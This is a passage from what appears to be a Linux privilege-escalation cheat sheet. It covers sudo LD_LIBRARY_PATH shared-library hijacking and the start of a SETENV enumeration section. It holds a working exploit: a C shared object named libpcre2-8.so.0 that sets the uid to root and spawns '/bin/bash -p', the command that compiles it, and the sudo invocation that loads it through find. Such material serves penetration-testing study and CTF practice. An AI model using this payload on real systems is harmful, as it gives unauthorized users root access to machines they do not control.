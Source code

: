 ```bash
$ ldd /usr/bin/find
        linux-vdso.so.1 (0x00007ffd627aa000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f6ebe9cc000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f6ebe8ed000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6ebe70c000)
        libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f6ebe672000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6ebea5f000)
```

Use one of the shared objects in the list and we will hijack it by creating a file with same name. For this demonstration, we will be targeting the `libpcre2-8.so.0` file.

```c
//Saved as /tmp/libpcre2-8.so.0.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

compile it

```bash
gcc -o /tmp/libpcre2-8.so.0 -shared -fPIC /tmp/libpcre2-8.so.0.c
```

Then run the sudo binary with `LD_LIBRARY_PATH` environement variable

```bash
#Use any command you can run with sudo
sudo LD_LIBRARY_PATH=/tmp <COMMAND>

#Example
sudo LD_LIBRARY_PATH=/tmp /usr/bin/find
```
{% endtab %}
{% endtabs %}

### SETENV

{% tabs %}
{% tab title="Enumerate" %}
This `SETENV`directive allows the user to **set an environment variable** while executing something:

```bash
#Setenv on an arbitrary binary/script 
$ sudo -l

env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh


#Setenv on binary/script without the full command path
$ sudo -l

env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always
User waldo may run the following commands on admirer:
    (ALL) SETENV: find

```